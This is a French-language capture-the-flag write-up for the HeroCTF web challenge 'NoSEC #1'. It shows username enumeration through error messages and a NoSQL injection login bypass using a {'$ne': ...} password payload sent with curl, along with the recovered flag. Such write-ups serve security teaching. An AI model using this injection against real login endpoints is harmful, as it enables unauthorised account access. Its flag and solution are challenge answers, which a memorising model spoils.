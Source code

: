 # NoSEC #1

### Catégorie

Web

### Description

Vous devez vous connecter pour valider le challenge !

http://challs.heroctf.fr:3000/login

Format: Hero{flag}

### Auteur

xanhacks

### Solution

Nous pouvons deviner le nom d'utilisateur "admin" en fonction des messages d'erreurs retourner par l'application.
test:test => Not match with this username !
admin:test => Wrong password !

Les données de la requête de connexion sont envoyées au format JSON.

{"username": "admin","password": "test"}

Grâce à cette information et au nom du challenge (NoSEC), nous pouvons deviner assez rapidement que ce challenge
est porté sur l'injection NoSQL.

Nous testons donc un payload assez simple :

{"username":"admin","password":{"$ne":"notvalidpassword"}}

Le nom d'utilisateur est "admin" et le mot de passe n'est pas égal (not equal => $ne) à "notvalidpassword".

```sh
curl -X POST --header "Content-Type: application/json" challs.heroctf.fr:3000/login --data '{"username":"admin", "password": {"$ne": "toto"}}'
{"state":"success","msg":"You can validate this challenge with: Hero{NoSQL_1Nject1on_wAw_1597}"}
```

### Flag

Hero{NoSQL_1Nject1on_wAw_1597}